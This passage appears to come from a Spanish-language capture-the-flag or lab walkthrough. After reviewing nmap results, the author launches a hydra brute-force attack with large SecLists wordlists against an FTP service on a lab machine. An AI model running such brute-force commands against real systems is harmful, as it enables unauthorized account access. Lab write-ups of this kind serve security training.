     Por aquí parece que no vemos nada , lo dejamos en pausa y seguimos intentándolo de otra manera.
    
- Vamos  a ver de nuevo la enumeración que hemos hecho con nmap.
    
    ![image.png](./imagenes/image%2056.png)
    
    Vemos que tiene abierto el **puerto 21** con un **servicio ftp**. 
    
- Le vamos a hacer un ataque de fuerza bruta con **hydra** aunque no sepamos el usuario y la contraseña.
    
    ```bash
    hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -P /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-1000000.txt ftp://10.0.3.19
    ```
    
    ![image.png](./imagenes/image%2057.png)
    